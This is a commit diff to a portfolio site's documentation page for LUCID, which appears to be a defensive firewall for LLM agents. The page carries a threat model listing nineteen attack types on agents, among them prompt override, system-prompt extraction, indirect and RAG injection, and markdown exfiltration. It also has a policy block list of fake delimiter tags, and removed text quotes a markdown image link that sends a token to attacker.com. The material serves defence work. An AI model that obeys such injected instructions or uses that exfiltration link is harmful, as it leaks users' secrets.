

Before and after one commit to erenntekin/erenntekin.github.io, a Next.js app: page /projects/lucid/docs in a window 1280 px wide. Shown: the part 284-2204 px from the top of the page at 70% size. Built offline with nearby package versions, Linux system fonts and the light colour scheme; a web font is replaced by a local one.

Commit message:
refactor(lucid): tighten limits to 2 real points and streamline documentation prose

```diff
--- a/src/components/projects/LucidDocs.tsx
+++ b/src/components/projects/LucidDocs.tsx
@@ -20,6 +20,21 @@ const DOCS: { id: DocId; label: string; blurb: string }[] = [
   },
 ];
 
+function TitleWithAmpersand({ text }: { text: string }) {
+  const parts = text.split(" & ");
+  if (parts.length === 1) return <>{text}</>;
+  return (
+    <>
+      {parts.map((part, i) => (
+        <span key={i}>
+          {part}
+          {i < parts.length - 1 && <span className="font-sans font-normal text-current"> &amp; </span>}
+        </span>
+      ))}
+    </>
+  );
+}
+
 /* ------------------------------------------------------------------ shared ui */
 
 function Section({ num, title, children }: { num: string; title: string; children: ReactNode }) {
@@ -27,7 +42,7 @@ function Section({ num, title, children }: { num: string; title: string; childre
     <section className="space-y-3">
       <h2 className="font-serif text-xl font-semibold text-accent sm:text-2xl">
         <span className="mr-2.5 font-mono text-xs font-normal text-muted">{num}.</span>
-        {title}
+        <TitleWithAmpersand text={title} />
       </h2>
       {children}
     </section>
@@ -49,46 +64,39 @@ function Code({ children }: { children: ReactNode }) {
 /* ----------------------------------------------------------------- doc 1 data */
 
 const ASSETS: { asset: string; impact: string }[] = [
-  { asset: "The database", impact: "Stolen records, forged edits, or a wiped table." },
-  { asset: "Infrastructure secrets", impact: "Internal services and paid APIs fall open." },
-  { asset: "Side-effect tools", impact: "Accounts deleted, passwords reset, commands run." },
-  { asset: "The API budget", impact: "Credits drained, and the service goes down with the bill." },
-  { asset: "The agent's loyalty", impact: "The agent is turned against its own users." },
-];
-
-const IMPACTS: { family: string; asset: string; result: string }[] = [
-  { family: "Token leak, Markdown exfil", asset: "Infrastructure secrets", result: "Master keys compromised, machine identity spoofed." },
-  { family: "Tool chaining, SQL injection", asset: "The database", result: "Tables wiped, client files stolen, accounts hijacked." },
-  { family: "RAG poisoning, indirect injection", asset: "The agent's decision", result: "Silent takeover, with no direct contact." },
-  { family: "Tool-loop DoS", asset: "The API budget", result: "Credits burned, the service stops on the bill." },
+  { asset: "The database", impact: "Stolen records, forged edits, or wiped tables." },
+  { asset: "Infrastructure secrets", impact: "Exposed API keys and internal services." },
+  { asset: "Side-effect tools", impact: "Deleted accounts, reset passwords, or executed commands." },
+  { asset: "The API budget", impact: "Drained credits that take the service down." },
+  { asset: "The agent's loyalty", impact: "The agent turns against its own users." },
 ];
 
 interface Row { id: string; name: string; owasp: string; what: string }
 const T1: Row[] = [
   { id: "T1-01", name: "Direct Prompt Override", owasp: "LLM01", what: "Told to forget its rules and prove it." },
-  { id: "T1-02", name: "System Prompt Extraction", owasp: "LLM07", what: "Reads its hidden prompt out loud, token and all." },
-  { id: "T1-03", name: "Dangerous Function Call", owasp: "LLM06", what: "Deletes an account on command, no check." },
+  { id: "T1-02", name: "System Prompt Extraction", owasp: "LLM07", what: "Reads its hidden prompt out loud, secret and all." },
+  { id: "T1-03", name: "Dangerous Function Call", owasp: "LLM06", what: "Deletes an account on command without checking." },
 ];
 const T2: Row[] = [
   { id: "T2-01", name: "Delimiter & Tag Injection", owasp: "LLM01", what: "Fake system tags fence off a hidden order." },
   { id: "T2-02", name: "Homoglyph Substitution", owasp: "LLM01", what: "Cyrillic look-alikes slip past the filter." },
-  { id: "T2-03", name: "Encoding Obfuscation", owasp: "LLM01", what: "The order hides in Base64, then runs." },
+  { id: "T2-03", name: "Encoding Obfuscation", owasp: "LLM01", what: "The command hides in Base64, then runs." },
   { id: "T2-04", name: "Parameter Injection", owasp: "LLM06", what: "Negative and wildcard values pass unchecked." },
-  { id: "T2-05", name: "Cross-Lingual Evasion", owasp: "LLM01", what: "The same order, in a language filters never learned." },
+  { id: "T2-05", name: "Cross-Lingual Evasion", owasp: "LLM01", what: "The same order in a language filters missed." },
 ];
 const T3: Row[] = [
-  { id: "T3-01", name: "Stored / Indirect Injection", owasp: "LLM01", what: "A trap hides inside a review to summarise." },
+  { id: "T3-01", name: "Stored / Indirect Injection", owasp: "LLM01", what: "A trap hides inside text the agent reads on its own." },
   { id: "T3-02", name: "Tool-Loop DoS", owasp: "LLM10", what: "An endless tool loop drains the budget." },
-  { id: "T3-03", name: "Fake Backend Event", owasp: "LLM01", what: "A forged emergency unlocks root." },
-  { id: "T3-04", name: "Confused Deputy", owasp: "LLM06", what: "Two safe tools chain into a stranger's reset." },
-  { id: "T3-05", name: "Cloud SSRF Extraction", owasp: "LLM06", what: "The fetch tool lifts cloud metadata keys." },
+  { id: "T3-03", name: "Fake Backend Event", owasp: "LLM01", what: "A forged emergency unlocks root privileges." },
+  { id: "T3-04", name: "Confused Deputy", owasp: "LLM06", what: "Two safe tools chain into an account reset." },
+  { id: "T3-05", name: "Cloud SSRF Extraction", owasp: "LLM06", what: "The fetch tool lifts cloud metadata credentials." },
 ];
 const T4: Row[] = [
-  { id: "T4-01", name: "Markdown Exfiltration", owasp: "LLM02", what: "The token rides out inside an image link." },
-  { id: "T4-02", name: "Multi-turn Crescendo", owasp: "LLM01", what: "Friendly turns lower the guard before the ask." },
-  { id: "T4-03", name: "Attention Saturation", owasp: "LLM01", what: "Filler buries the order until rules drop out." },
-  { id: "T4-04", name: "RAG Vector Poisoning", owasp: "LLM04", what: "A payload planted days earlier wakes on a search." },
-  { id: "T4-05", name: "Arbitrary Shell Execution", owasp: "LLM06", what: "A fake diagnostic runs a shell command." },
+  { id: "T4-01", name: "Markdown Exfiltration", owasp: "LLM02", what: "The secret rides out inside an image link." },
+  { id: "T4-02", name: "Multi-turn Crescendo", owasp: "LLM01", what: "Friendly turns lower the guard before the real ask." },
+  { id: "T4-03", name: "Attention Saturation", owasp: "LLM01", what: "Filler text buries the order until rules drop out." },
+  { id: "T4-04", name: "RAG Vector Poisoning", owasp: "LLM04", what: "A payload planted in the database wakes on search." },
+  { id: "T4-05", name: "Arbitrary Shell Execution", owasp: "LLM06", what: "A fake diagnostic command runs in the shell." },
   { id: "T4-06", name: "Shadow Tool Poisoning", owasp: "LLM03", what: "A new outside tool registers at runtime." },
 ];
 
@@ -102,7 +110,9 @@ function TierTable({ title, rows }: { title: string; rows: Row[] }) {
             {rows.map((r) => (
               <tr key={r.id} className="hover:bg-surface/30">
                 <td className="whitespace-nowrap px-3 py-2.5 font-mono text-[11px] font-medium text-foreground/90">{r.id}</td>
-                <td className="whitespace-nowrap px-3 py-2.5 font-sans text-[12px] text-foreground/85">{r.name}</td>
+                <td className="whitespace-nowrap px-3 py-2.5 font-sans text-[12px] text-foreground/85">
+                  <TitleWithAmpersand text={r.name} />
+                </td>
                 <td className="whitespace-nowrap px-3 py-2.5 font-mono text-[10px] text-muted">{r.owasp}</td>
                 <td className="px-3 py-2.5 font-sans text-[12px] text-foreground/70">{r.what}</td>
               </tr>
@@ -119,7 +129,7 @@ function ThreatDoc() {
     <div className="space-y-12">
       <Section num="01" title="Assets under threat">
         <P>
-          An LLM on its own has very little leverage. It can hallucinate or produce toxic text, but it cannot delete an account, read a secret key, or make a network call. The threat begins the moment the model is given tools. Tools are the hands through which the model acts on real systems.
+          An LLM alone has very little power. It can hallucinate. But it cannot delete an account, read a secret key, or make a network call. The threat starts the moment you give the model tools. Tools are the hands it uses to act on real systems.
         </P>
         <div className="mt-4 overflow-x-auto rounded-sm border border-border/80 bg-surface/20">
           <table className="w-full text-left text-xs">
@@ -143,31 +153,31 @@ function ThreatDoc() {
 
       <Section num="02" title="The four attacker archetypes">
         <P>
-          Security controls often fail because they assume every attack comes from an untrusted stranger in a public chat. In reality, four distinct attacker profiles target agentic systems, each using a different trust boundary.
+          Most security setups assume the attacker is just an anonymous person in the chat. In practice, four different attackers target an agent.
         </P>
         <div className="mt-4 space-y-3">
           <div className="rounded-sm border border-border/70 bg-surface/20 p-4">
-            <p className="font-mono text-xs font-semibold text-accent">1. Direct Abuser (Prompt Injection)</p>
+            <p className="font-mono text-xs font-semibold text-accent">1. Direct Abuser</p>
             <p className="mt-1 text-xs leading-relaxed text-foreground/80">
-              A regular user typing into the chat interface. Uses instruction overrides, persona adoption, roleplay framing, or linguistic evasion to bypass developer rules and extract perks or internal prompts.
+              An ordinary user typing in the chat. Uses roleplay, trick questions, or strange encodings to bypass rules and steal the system prompt.
             </p>
           </div>
           <div className="rounded-sm border border-border/70 bg-surface/20 p-4">
-            <p className="font-mono text-xs font-semibold text-accent">2. Industrial Competitor (Automated Extraction)</p>
+            <p className="font-mono text-xs font-semibold text-accent">2. Competitor</p>
             <p className="mt-1 text-xs leading-relaxed text-foreground/80">
-              An adversary with scripting capabilities seeking mass data extraction, API key harvesting, or proprietary system prompt recreation through high-volume systematic probing.
+              An organized attacker scripting the chat. Probes the model to harvest cloud keys, proprietary logic, or customer records.
             </p>
           </div>
           <div className="rounded-sm border border-border/70 bg-surface/20 p-4">
-            <p className="font-mono text-xs font-semibold text-accent">3. Indirect Saboteur (RAG & Web Traps)</p>
+            <p className="font-mono text-xs font-semibold text-accent">3. Invisible Saboteur</p>
             <p className="mt-1 text-xs leading-relaxed text-foreground/80">
-              Never communicates directly with the agent. Plants payload instructions inside third-party websites, PDF files, emails, or repositories that the agent retrieves during autonomous execution.
+              Never talks to the agent directly. Plants instructions inside web pages, PDFs, or repositories that the agent reads on its own.
             </p>
           </div>
           <div className="rounded-sm border border-border/70 bg-surface/20 p-4">
-            <p className="font-mono text-xs font-semibold text-accent">4. Financial Denial of Service (Resource Drain)</p>
+            <p className="font-mono text-xs font-semibold text-accent">4. Financial DoS</p>
             <p className="mt-1 text-xs leading-relaxed text-foreground/80">
-              Abuses multi-step reasoning to trigger recursive tool calls, infinite reflection loops, or intensive computational tasks, causing rapid API quota and operational budget exhaustion.
+              Traps the agent in an endless tool loop. Burns through the API token quota and takes the service down with the bill.
             </p>
           </div>
         </div>
@@ -175,7 +185,7 @@ function ThreatDoc() {
 
       <Section num="03" title="The 19 OWASP LLM attack vectors">
         <P>
-          LUCID evaluates and mitigates nineteen concrete attack probes, categorized across four severity tiers from naive prompt overrides to state-of-the-art vector poisoning.
+          LUCID is built to stop nineteen concrete attacks, tested across four tiers of difficulty.
         </P>
         <TierTable title="Tier 1 · Naïve baseline" rows={T1} />
         <TierTable title="Tier 2 · Syntactic evasion" rows={T2} />
@@ -198,14 +208,12 @@ const POLICY_SAMPLE = `{
       "block_structural_delimiters": [
         "</user_input>",
         "<system_directive>",
-        "[INST]",
-        "<<SYS>>"
+        "[INST]"
       ]
     },
     "tool_shield": {
       "human_in_the_loop": [
-        "delete_account",
-        "execute_database_query"
+        "delete_account"
       ],
       "circuit_breaker": {
         "max_tool_calls_per_turn": 3,
@@ -219,8 +227,7 @@ const POLICY_SAMPLE = `{
     },
     "output_shield": {
       "redact_canary_tokens": ["CANARY_2026_SECRET_KEY"],
-      "block_external_images": true,
-      "sanitize_markdown_links": true
+      "block_external_images": true
     }
   }
 }`;
@@ -228,91 +235,91 @@ const POLICY_SAMPLE = `{
 function GuideDoc() {
   return (
     <div className="space-y-12">
-      <Section num="01" title="The Execution Boundary Philosophy">
+      <Section num="01" title="Defending the Boundary">
         <P>
-          System prompts alone cannot guarantee safety. When an adversarial user convinces a model to ignore its prompt, internal guardrails collapse.
+          Prompts cannot stop an attack on their own. Once a model is tricked, internal rules drop.
         </P>
         <P>
-          LUCID operates as an <strong>external runtime firewall</strong>. It sits directly between the LLM and the tools in your Python application code. It never touches the model's weights and never requires fine-tuning. Instead, it enforces zero-trust validation at the execution boundary: every incoming message, every emitted tool call, every tool output, and every final reply must pass through strict programmatic filters before reaching the database or the user.
+          LUCID sits between the model and the tools. It never touches model weights. It inspects what comes in, what the model calls, and what goes out. If an order breaks a rule, LUCID stops it before code runs.
         </P>
       </Section>
 
-      <Section num="02" title="Quickstart & 3-Line Integration">
+      <Section num="02" title="Quickstart & Integration">
         <P>
-          LUCID wraps any existing agent without architectural changes. Load your declarative policy file and wrap your agent instance:
+          You can protect any agent in three lines of Python:
         </P>
         <Code>{`from lucid.guard import LucidGuardrail
 
-# 1. Load the defensive policy
+# 1. Load the policy file
 guard = LucidGuardrail.from_policy_file("lucid_policy.json")
 
-# 2. Wrap your target agent
+# 2. Wrap your agent
 protected_agent = guard.wrap(my_agent)
 
-# 3. Chat with complete safety
+# 3. Chat safely
 response = protected_agent.chat("Delete account u_1002")
-# -> Refused by Tool Shield: requires explicit operator approval.`}</Code>
+# -> Refused by Tool Shield: requires operator approval.`}</Code>
       </Section>
 
-      <Section num="03" title="The Four Sequential Checkpoints">
+      <Section num="03" title="The Four Shields">
         <P>
-          Every conversation turn passes through four defensive shields:
+          Every message passes through four checkpoints:
         </P>
         <div className="mt-4 space-y-3">
           <div className="rounded-sm border border-border/70 bg-surface/20 p-4">
-            <p className="font-mono text-xs font-semibold text-accent">1. Input Shield (Pre-LLM)</p>
+            <p className="font-mono text-xs font-semibold text-accent">1. Input Shield</p>
             <p className="mt-1 text-xs leading-relaxed text-foreground/80">
-              Normalizes text with NFKC Unicode rules, replaces Cyrillic homoglyphs with their ASCII equivalents, and strips fake structural delimiter tags (<code className="font-mono text-[11px] text-accent">&lt;/user_input&gt;</code>) to neutralize prompt injection before tokens reach the model.
+              Cleans text before the model sees it. Replaces Cyrillic look-alikes with plain letters, normalizes Unicode, and removes fake tags.
             </p>
           </div>
 
           <div className="rounded-sm border border-border/70 bg-surface/20 p-4">
-            <p className="font-mono text-xs font-semibold text-accent">2. Pre-Tool Shield & Parameter Bounds (Pre-Execution)</p>
+            <p className="font-mono text-xs font-semibold text-accent">2. Tool Shield</p>
             <p className="mt-1 text-xs leading-relaxed text-foreground/80">
-              When the model emits a tool call, LUCID intercepts it before dispatch. Pydantic schemas validate that numbers fall within safe ranges (e.g., calories cannot be negative). Critical functions (account deletion, raw SQL execution) are halted until explicit human confirmation is provided.
+              Catches tool calls before dispatch. Checks arguments against Pydantic rules and holds sensitive actions, like account deletion, for human approval.
             </p>
           </div>
 
           <div className="rounded-sm border border-border/70 bg-surface/20 p-4">
-            <p className="font-mono text-xs font-semibold text-accent">3. Sliding-Window Circuit Breaker (Loop Defense)</p>
+            <p className="font-mono text-xs font-semibold text-accent">3. Circuit Breaker</p>
             <p className="mt-1 text-xs leading-relaxed text-foreground/80">
-              Monitors tool invocation frequency per turn. If an agent loops on the same tool call or exceeds turn limits (e.g., &gt; 3 calls), the breaker trips, aborting the recursion and enforcing a 60-second cooldown to protect the API budget.
+              Counts tool calls per turn. If an agent loops on the same tool or calls too many, the breaker trips and cools down for sixty seconds.
             </p>
           </div>
 
           <div className="rounded-sm border border-border/70 bg-surface/20 p-4">
-            <p className="font-mono text-xs font-semibold text-accent">4. Output Shield (Post-Execution)</p>
+            <p className="font-mono text-xs font-semibold text-accent">4. Output Shield</p>
             <p className="mt-1 text-xs leading-relaxed text-foreground/80">
-              Scans the agent's final text for leaked canary tokens, internal API keys, or exfiltration Markdown image links (<code className="font-mono text-[11px] text-accent">![leak](https://attacker.com?token=...)</code>), redacting secrets before the user sees them.
+              Scans the final answer before the user sees it. Redacts secret keys, canary tokens, and hidden Markdown image links.
             </p>
           </div>
         </div>
       </Section>
 
-      <Section num="04" title="Declarative Policy Specification">
+      <Section num="04" title="The Policy File">
         <P>
-          LUCID uses a clean JSON policy format generated directly by MIRAGE or written by hand. Rules are transparent, auditable, and version-controlled alongside application code:
+          Rules live in a single JSON file. MIRAGE can generate this file automatically from the exploits it finds, or you can write it by hand:
         </P>
         <Code>{POLICY_SAMPLE}</Code>
       </Section>
 
-      <Section num="05" title="CLI Policy Inspection">
+      <Section num="05" title="CLI Policy Check">
         <P>
-          Operators can verify any policy file instantly from the terminal using the LUCID command-line interface:
+          Inspect your rules from the terminal:
         </P>
         <Code>lucid policy ./reports/lucid_policy.json</Code>
         <P>
-          This command prints a formatted table displaying active delimiters, parameter rules, and canary token lists.
+          This prints active shields, tool bounds, and canary secrets in a clean table.
         </P>
       </Section>
 
-      <Section num="06" title="Closed-Loop Verification Suite">
+      <Section num="06" title="Proving the Defense">
         <P>
-          The ultimate test of a defense system is replaying real exploits against it. LUCID integrates with the MIRAGE test harness to run the full 19-probe matrix in both unprotected and protected modes:
+          A defense only matters if you test it. LUCID replays all nineteen attacks from MIRAGE against the guarded agent:
         </P>
         <Code>lucid verify --policy ./reports/lucid_policy.json</Code>
         <P>
-          On the MyBelly assistant, this test proves the security transformation:
+          On the MyBelly assistant, this test proves the security change:
         </P>
         <div className="mt-4 overflow-x-auto rounded-sm border border-border/80 bg-surface/20">
           <table className="w-full text-left text-xs">
@@ -342,9 +349,9 @@ response = protected_agent.chat("Delete account u_1002")
         </div>
       </Section>
 
-      <Section num="07" title="Automated Regression Testing">
+      <Section num="07" title="Automated Regression Tests">
         <P>
-          All 35 automated tests run in 0.39 seconds via Pytest, confirming that shield mechanics, sliding-window cooldowns, and parameter validation remain regression-free:
+          Thirty-five automated tests run in under half a second:
         </P>
         <Code>pytest tests/ -v</Code>
       </Section>
@@ -398,7 +405,7 @@ export function LucidDocs() {
                 }`}
               >
                 <p className={`font-mono text-[13px] font-semibold ${on ? "text-accent" : "text-foreground/80"}`}>
-                  {d.label}
+                  <TitleWithAmpersand text={d.label} />
                 </p>
                 <p className="mt-1 font-sans text-xs text-muted">{d.blurb}</p>
               </button>
```
Also changed, not shown: src/components/projects/LucidDetail.tsx (+8 -20 lines).
